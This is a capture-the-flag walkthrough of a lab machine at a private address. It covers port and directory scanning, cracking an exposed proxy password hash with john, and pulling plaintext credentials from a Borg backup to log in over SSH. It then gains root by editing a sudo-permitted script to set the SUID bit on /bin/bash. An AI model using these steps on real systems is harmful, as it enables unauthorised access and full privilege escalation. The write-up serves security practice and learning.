





Target: 10.10.222.184

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.222.184

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-05 14:25 +08
Nmap scan report for 10.10.222.184
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.222.184/FUZZ

admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10]
```

checking /admin



checking /etc



passwd
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

cracking hash with john
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

squidward        (?)
```

Loot:

music_archive:squidward

squid.conf
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

checking /admin/admin.html



downloading archive.tar



extracting archive.tar
```
$ tar xvf archive.tar

home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1

$ cd home/field/dev/final_archive/

$ cat README

This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

### Findings:Looking for attack vectors

Decode backup repository using borg to find confidential information.


## Foothold:

downloading borg



extracting backup with borg 
```
$ chmod +x borg-linux64

$ ./borg-linux64 list archive/home/field/dev/final_archive  

music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

$ ./borg-linux64 extract archive/home/field/dev/

final_archive::music_archive                                                                                                                                                       
Enter passphrase for key /home/kali/Downloads/archive/home/field/dev/final_archive:
```

looking for suspicious file/s
```
$ cd home

$ cd alex

$ ls -la

total 64
drwxr-xr-x 12 kali kali 4096 Dec 29 21:55 .
drwx------  3 kali kali 4096 May  5 15:08 ..
-rw-------  1 kali kali  439 Dec 29 01:26 .bash_history
-rw-r--r--  1 kali kali  220 Dec 28 22:25 .bash_logout
-rw-r--r--  1 kali kali 3637 Dec 28 22:25 .bashrc
drwx------  4 kali kali 4096 Dec 29 00:33 .config
drwx------  3 kali kali 4096 Dec 29 00:33 .dbus
drwxrwxr-x  2 kali kali 4096 Dec 29 21:57 Desktop
drwxrwxr-x  2 kali kali 4096 Dec 29 21:55 Documents
drwxrwxr-x  2 kali kali 4096 Dec 29 01:59 Downloads
drwxrwxr-x  2 kali kali 4096 Dec 29 02:00 Music
drwxrwxr-x  2 kali kali 4096 Dec 29 02:26 Pictures
-rw-r--r--  1 kali kali  675 Dec 28 22:25 .profile
drwxrwxr-x  2 kali kali 4096 Dec 29 01:59 Public
drwxrwxr-x  2 kali kali 4096 Dec 29 02:00 Templates
drwxrwxr-x  2 kali kali 4096 Dec 29 01:59 Videos

$ cd Documents 

$ cat note.txt        
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Loot:

alex:S3cretP@s3

```
$ ssh alex@10.10.222.184

alex@ubuntu:~$ id

uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

```
alex@ubuntu:~$ cat user.txt 

<redacted>
```


## Priv Escalations:

```
alex@ubuntu:~$ sudo -l

Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking for suspicious file/s
```
alex@ubuntu:/etc/mp3backups$ chmod 777 backup.sh 

alex@ubuntu:/etc/mp3backups$ vi backup.sh

alex@ubuntu:/etc/mp3backups$ cat backup.sh 

#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt
#add these
sudo chmod +s /bin/bash

input="/etc/mp3backups/backed_up_files.txt"
<snip>

alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh 
```

```
$ /bin/bash -p

bash-4.3# id

uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
```

```
bash-4.3# cd /root

bash-4.3# cat root.txt

<redacted>
```
